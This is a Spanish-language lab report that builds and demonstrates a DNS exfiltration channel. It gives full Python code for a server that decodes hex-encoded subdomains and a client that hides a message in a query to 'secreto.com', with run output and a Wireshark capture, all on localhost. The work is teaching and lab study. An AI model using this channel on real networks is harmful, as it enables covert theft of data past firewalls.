



# Informe: exfiltración de datos mediante peticiones DNS

**Autor:** Joel Asensio Chavarría
**Entorno:** Ubuntu (cliente `joel@joelubuntu`)
**Lenguaje:** Python 3 (librería `dnspython`)
**Herramienta de captura:** Wireshark

---

## 1. Objetivo

Simular una técnica de exfiltración de datos mediante DNS: un cliente codifica información en hexadecimal dentro del nombre de un subdominio y la envía como una consulta DNS normal (registro A) a un servidor propio, que la decodifica y responde con una IP falsa.

## 2. Componentes de la práctica

| Fichero | Función |
|---|---|
| `dns_server_1_peticion.py` | Servidor DNS que escucha en el puerto 53/UDP, recibe la petición, extrae y decodifica el subdominio, y responde con un registro A fijo. |
| `dns_client_1_peticion.py` | Cliente que codifica un mensaje en hexadecimal, lo añade como subdominio de `secreto.com` y envía la petición DNS al servidor. |

## 3. Código del servidor

Fichero: `dns_server_1_peticion.py`

```python
import socket
import dns.message
import dns.name
import dns.rdata
import dns.rdataclass
import dns.rdatatype
import dns.rrset

servidor = "0.0.0.0"        # Escucha en todos los adaptadores
puerto = 53                 # Puerto 53 DNS
buffer = 4096               # Tamaño buffer
dominio = "secreto.com."    # Nombre de dominio absoluto para la respuesta
ip_respuesta = "4.3.2.1"    # IP falsa de respuesta de ejemplo

server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_socket.bind((servidor, puerto))

print("Esperando 1 peticion DNS...")

while True:
    request_data, client_address = server_socket.recvfrom(buffer)
    request = dns.message.from_wire(request_data)

    print("Recibida petición DNS")
    print(request)

    full_domain_name = request.question[0].name.to_text()
    print("Nombre dominio completo: " + full_domain_name)
    subdomain = full_domain_name.split(".")[0]
    print("Subdominio recibido: " + subdomain)

    try:
        datosreales = bytes.fromhex(subdomain).decode()
        print("Mensaje oculto recibido: " + datosreales)
    except Exception as e:
        print("No hay datos en hexadecimal")

    response = dns.message.make_response(request)
    response.id = request.id
    response.set_rcode(dns.rcode.NOERROR)

    response.answer.append(dns.rrset.from_text(dominio,
                                               300,
                                               dns.rdataclass.IN,
                                               dns.rdatatype.A,
                                               ip_respuesta))

    response_data = response.to_wire()
    server_socket.sendto(response_data, client_address)
    break
```

## 4. Código del cliente

Fichero: `dns_client_1_peticion.py`

```python
import dns.message
import dns.query

servidor = "127.0.0.1"                      # Host destino
puerto = 53                                 # Puerto
dominio = "secreto.com"                     # Nombre de dominio inventado
subdominio = "6461746f73206f63756c746f73"   # datos ocultos en hexadecimal

dominiocompleto = subdominio + "." + dominio

print("Inicio del envio")

request = dns.message.make_query(dominiocompleto, dns.rdatatype.A)
response = dns.query.udp(request, servidor, timeout=5)

print("Respuesta: ", response)
print("Fin del envío")
```

## 5. Ejecución

### 5.1 Servidor

```bash
sudo python3 dns_server_1_peticion.py
```

Salida obtenida:

```
Esperando 1 peticion DNS...
Recibida petición DNS
id 17747
opcode QUERY
rcode NOERROR
flags RD
;QUESTION
6461746f73206f63756c746f73.secreto.com. IN A
;ANSWER
;AUTHORITY
;ADDITIONAL
Nombre dominio completo: 6461746f73206f63756c746f73.secreto.com.
Subdominio recibido: 6461746f73206f63756c746f73
Mensaje oculto recibido: datos ocultos
```

El servidor extrae el subdominio `6461746f73206f63756c746f73`, lo decodifica de hexadecimal y recupera el mensaje oculto **"datos ocultos"**.

### 5.2 Cliente

```bash
sudo python3 dns_client_1_peticion.py
```

Salida obtenida:

```
Inicio del envio
Respuesta:  id 17747
opcode QUERY
rcode NOERROR
flags QR RD
;QUESTION
6461746f73206f63756c746f73.secreto.com. IN A
;ANSWER
secreto.com. 300 IN A 4.3.2.1
;AUTHORITY
;ADDITIONAL
Fin del envio
```

El cliente recibe como respuesta el registro `A` falso para `secreto.com.` con la IP `4.3.2.1`, confirmando que el servidor procesó la petición correctamente.

## 6. Esquema del proceso

```
 CLIENTE (dns_client_1_peticion.py)                 SERVIDOR (dns_server_1_peticion.py)
 ───────────────────────────────────                ────────────────────────────────────
 Mensaje: "datos ocultos"
        │
        ▼
 Codifica a hexadecimal
 "6461746f73206f63756c746f73"
        │
        ▼
 Construye subdominio:
 6461746f73...746f73.secreto.com
        │
        │   Petición DNS (UDP/53)
        │   QUESTION: <hex>.secreto.com  IN A
        ├──────────────────────────────────────▶   Escucha en 0.0.0.0:53
        │                                                   │
        │                                                   ▼
        │                                     Extrae subdominio del QUESTION
        │                                                   │
        │                                                   ▼
        │                                     Decodifica hexadecimal → texto
        │                                     "Mensaje oculto recibido: datos ocultos"
        │                                                   │
        │                                                   ▼
        │                                     Genera respuesta falsa:
        │                                     secreto.com. 300 IN A 4.3.2.1
        │   Respuesta DNS (UDP/53)                           │
        │◀──────────────────────────────────────────────────┘
        ▼
 Muestra respuesta recibida
 (confirma entrega, IP 4.3.2.1)
```

El dato exfiltrado viaja oculto dentro del **nombre de dominio consultado**, no en la carga habitual de una petición; por eso un firewall que solo inspeccione IPs y puertos (y deje pasar el DNS sin más) no detecta la fuga de información.

## 7. Capturas

### 7.1 Ejecución del cliente



### 7.2 Ejecución del servidor



### 7.3 Captura de tráfico con Wireshark



Se capturó el tráfico en la interfaz de loopback (`lo`) filtrando por `dns`. Se observan dos paquetes relevantes:

| Nº | Origen | Destino | Protocolo | Info |
|---|---|---|---|---|
| 3 | 127.0.0.1 | 127.0.0.1 | DNS | Standard query 0x4553 A 6461746f73206f63756c746f73.secreto.com |
| 4 | 127.0.0.1 | 127.0.0.1 | DNS | Standard query response 0x4553 |

En la petición (paquete 3) se aprecia en el panel de bytes el nombre de dominio codificado, incluyendo la cadena hexadecimal que representa el mensaje oculto.

